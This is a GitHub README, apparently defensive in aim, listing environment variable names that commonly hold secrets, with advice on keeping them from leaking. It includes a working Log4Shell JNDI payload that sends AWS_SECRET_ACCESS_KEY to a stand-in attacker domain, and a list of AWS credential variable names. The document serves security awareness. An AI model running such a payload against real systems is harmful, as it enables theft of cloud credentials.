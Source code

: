 https://github.com/Puliczek/awesome-list-of-secrets-in-environment-variables

🤝 Show your support \- give a ⭐️ if you liked the content | [SHARE on Twitter](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2FPuliczek%2Fawesome-list-of-secrets-in-environment-variables&via=pulik_io&text=Awesome%20list%20of%20secrets%20in%20environment%20variables) | Follow me on    
---

# **Awesome list of secrets in environment variables Awesome**

# **📝 Description**

List of secrets, passwords, API keys, tokens stored inside a system environment variables.  
An environment variable is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice.  
Many developer documentations recommends storing secrets inside an environment variable, but is it the best way to keep secrets?  
The attacker can read values inside system environment variable by using exploits:

* CVE-2021-44228 JNDI log4j (JAVA) ([Read more...](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words#1-system-environment-variables))  
  `${jndi:ldap://somesitehackerofhell.com/z?leak=${env:AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}`  
  Get AWS\_SECRET\_ACCESS\_KEY or return NO\_EXISTS  
* CVE-XXXX-XXXX Web browser attack (Writeup/POC coming soon to my Github \- Follow me on [Github](https://github.com/Puliczek) and [Twitter](https://twitter.com/pulik_io) 😉  
* and much more...

Because of that I created, a list of secrets in environment variables to help secure software.  
Some of practices to avoid leak of secrets stored in environment variables is to:

* Block/notify on WAF when the request includes system environment variables  
* Store in system environment variable path to a config file, instead of clean value  
* Encrypt values inside environment variable  
* Use different way to store secrets 🤓

![Environment variables][image1]  
You can check your system environment variables:

* Windows execute in PowerShell: `dir env:`  
* Linux/MacOS execute in terminal: `printenv` or `env`

# **Awesome list of secrets in environment variables**

# **A**

## **AWS**

* AWS\_ACCESS\_KEY\_ID  
* AWS\_SECRET\_ACCESS\_KEY  
* AMAZON\_AWS\_ACCESS\_KEY\_ID  
* AMAZON\_AWS\_SECRET\_ACCESS\_KEY


[image1]: https://user-images.githubusercontent.com/12344862/147656611-8726c036-128b-4ad4-a19b-c019c2d6b1ea.png